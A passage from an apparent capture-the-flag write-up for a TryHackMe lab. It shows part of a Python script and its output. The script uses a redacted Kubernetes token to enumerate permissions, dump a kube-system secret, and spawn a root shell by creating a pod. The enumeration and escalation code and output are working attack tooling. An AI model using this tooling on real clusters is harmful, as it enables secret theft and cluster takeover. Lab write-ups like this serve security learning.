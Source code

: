 ```py
ext_name(res, name, namespace)

print(Fore.CYAN + "-" * 10 + "Part 5: Spawning a Root Shell(Optional)" + "-" * 10)
revshell = input("Do you need to spawn a root shell? Y/N\n")

if revshell == "Y":
    createpod()
    time.sleep(2)
    spawnshell()
else:
    print(Fore.CYAN + "Bye!")
    exit()
```

**Output:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# python3 enumk8s.py -t "{Redacted_Token}" -u https://$RHOSTS -p 6443
----------Part 1: Getting Current Privileges----------
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
----------Part 2: Getting Supported Resources----------
NAME                        SHORTNAMES   APIVERSION                     NAMESPACED   KIND
[...]
secrets                                  v1                             true         Secret
[...]
----------Part 3: Getting Resource----------
Which resources you want? E.g. secrets
secrets
NAMESPACE         NAME                                                 TYPE                                  DATA   AGE
[...]
kube-system       flag3                                                Opaque                                1      459d
[...]
----------Part 4: Extracting Name----------
Which name you want? E.g. flag3
flag3
Which namespace you want? E.g. kube-system
kube-system
apiVersion: v1
data:
  flag3.txt: {Redacted}
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{Redacted}"},"type":"Opaque"}
[...]
type: Opaque
----------Part 5: Spawning a Root Shell(Optional)----------
Do you need to spawn a root shell? Y/N
Y
Creating pod.yaml...
pod/pod created
----------Spawning a Root Shell :D----------
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
bash-4.4# whoami;hostname;id;ip a
root
pod
```